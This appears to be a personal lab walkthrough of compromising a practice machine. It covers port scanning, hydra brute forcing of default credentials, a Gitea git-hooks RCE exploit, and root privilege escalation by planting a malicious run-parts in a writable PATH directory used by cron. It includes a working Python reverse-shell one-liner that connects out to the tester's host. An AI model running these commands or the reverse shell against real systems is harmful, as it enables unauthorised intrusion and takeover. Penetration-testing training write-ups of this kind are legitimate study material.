### Enumeration
```
IP=192.168.165.67
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p21,22,2222,3000 -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 21
	- ProFTPD 1.3.5b Server
- 22
	- OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
- 2222
	- Dropbear sshd 2016.74
- 3000
	- ppp
### Foothold
- 21
	- ftp anonymous@$IP
		- login failed
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
		- no login found
- 22
	- hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://$IP
		- nothing
- 2222
	- hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://$IP -s 2222
		- nothing
- 3000
	- Default landing page
		- ![[Pasted image 20240813070657.png]]
	- Versions
		- Gitea Version: 1.7.5
			- multiple/webapps/49383.py
				- Crate an account then edit the script
				- Keeps giving error injecting command into repo
				- Looks like rep is not getting created?
			- Tried git hook exploit
			- python3 CVE-2020-14144-GiTea-git-hooks-rce.py -u abc -p admin12 -t http://192.168.165.67:3000 -I 192.168.45.163 -P 22
				- Gets us RCE
	- Directory Brute force
		- dirsearch -u http://$IP 
			- /admin
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
### PE
#### Linux
- chloe
	- id
		- uid=1000(chloe) gid=1000(chloe) groups=1000(chloe),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
	- sudo -l
		- sudo not found
	- uname -a
		- `Linux roquefort 4.9.0-12-amd64 #1 SMP Debian 4.9.210-1 (2020-01-20) x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- chlose
	- netstat -ano
		- Active ports
			- 3306
			- 2222
			- 60522
	- linpeas
		- Transfer over port 21
		- Possible Exploits
		- Interesting Files
			- /usr/local/bin/gitea
				- binary process permissions
			- /usr/local/bin
				- owned by chloe
				- ls -la /usr/local/bin
					- drwxrwsrwx  2 root staff     4096 Apr 24  2020 .
		- Path exploit
			- /usr/lib/git-core:/usr/lib/git-core:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
	- pspy64
		- ![[Pasted image 20240813091012.png]]
		- hourly ran cron for run-parts
		- We create mal run-parts in /usr/local/bin
			- `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.163",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
			- We receive rev shell as root
### Credentials
### Lessons Learned
- Run pspy64 when getting on target and open second shell to start running other commands